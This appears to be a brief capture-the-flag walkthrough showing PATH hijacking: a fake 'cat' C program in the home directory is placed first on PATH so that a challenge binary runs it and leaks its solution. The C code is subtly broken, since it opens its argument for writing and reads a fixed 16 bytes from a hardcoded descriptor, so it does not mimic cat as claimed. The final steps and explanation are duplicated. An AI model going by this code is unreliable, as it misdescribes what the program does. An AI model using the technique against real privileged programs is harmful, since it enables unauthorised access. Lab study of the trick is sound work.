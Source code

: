 ## Tryouts 

 - Write a simple C program (e.g., cat.c) in your home directory that mimics the behavior of the "cat" command:
``` 
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main(int argc, char *argv[]) {
    int fd = open(argv[1], O_WRONLY | O_CREAT, 0644);
    char buf[16];
    read(3, buf, sizeof(buf));
    write(fd, buf, sizeof(buf));
    close(fd);
    return 0;
}
```

 - Now  compile the file "cat.c" : `gcc -m32 cat.c -o cat`

 - Add your home directory to the PATH environment variable.
 ```
 export PATH=$HOME:$PATH
```

 - Execute the tryouts executable in its folder.

 -  Use the `cat seed` to read the file. The solution will be revealed.

 This approach leverages a fake "cat" command to intercept the solution and demonstrates how manipulating the PATH can influence command execution.

 - Execute the tryouts executable in its folder.

 -  Use the `cat seed` to read the file. The solution will be revealed.

 This approach leverages a fake "cat" command to intercept the solution and demonstrates how manipulating the PATH can influence command execution.
